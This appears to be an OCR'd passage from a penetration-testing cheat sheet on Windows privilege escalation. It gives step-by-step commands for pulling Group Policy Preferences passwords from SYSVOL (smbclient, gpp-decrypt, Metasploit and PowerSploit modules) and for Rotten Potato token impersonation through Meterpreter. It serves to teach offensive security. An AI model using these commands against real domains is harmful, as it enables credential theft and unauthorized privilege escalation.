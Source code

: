     -   Group policy preferences allows domain admins to create and deploy across the domain local users and local administrators accounts. This feature was introduced in Windows 2008 Server however it can be abused by an attacker since the credentials of these accounts are stored encrypted and the public [key] is published by Microsoft. This leaves the door open to any user to retrieve these files and decrypt the passwords stored in order to elevate access. These files are stored in a shared directory in the domain controller and any authenticated user in the domain has read access to these files since it is needed in order to obtain group policy updates

    -   **Manually**

        -   connect with the target's Domain controller via SMB and try to access /SYSVOL

            -   net use z: [\\\\dc01\\SYSVOL] -\> via windows

            -   smbclient //192.168.1.103/SYSVOL -U user -\> via linux

        -   Find the GPP file: Groups.xml

            -   Ex of location: *domain.local\\Policies\\{ EE416E94-7362-4587-9CEC-651656DB7538}\\Machine\\Preferences\\Groups\\Groups.xml*

            -   dir /s Groups.xml

        -   Review the contents for passwords

            -   type Groups.xml

        -   Decrypt using GPP Decrypt

            -   gpp-decrypt \[encrypted\_cp\_password\]

    -   **Metasploit**

        -   Use post/ windows/gather/credentials/gpp

            -   after gaining access to the target's domain contoller

        -   use auxiliary/scanner/smb/smb\_enum\_gpp

            -   enumerates files from target domain controllers and connects to them via SMB

    -   **Powersploit**

        -   Get-CachedGPPPassword -\>For locally stored GP Files

        -   Get-GPPPassword -\>For GP Files stored in the DC  

-   **Token Manipulation**

    -   It is known that running a windows service as local system it is a bad security practice as if this service is compromised in any way it would give the same level of privileges to an attacker as well. However it is also possible to escalate privileges from a service that is not running as SYSTEM but as a network service as well.

    -   However there is a technique which can be used that tries to trick the "NT Authority\\System" account to negotiate and authenticate via NTLM locally so the token for the "NT Authority\\System" account would become available and therefore privilege escalation possible. This technique is called [Rotten Potato] 

    -   **Exploitation method**

        -   Meterpreter \> execute rottenpotato.exe --Hc
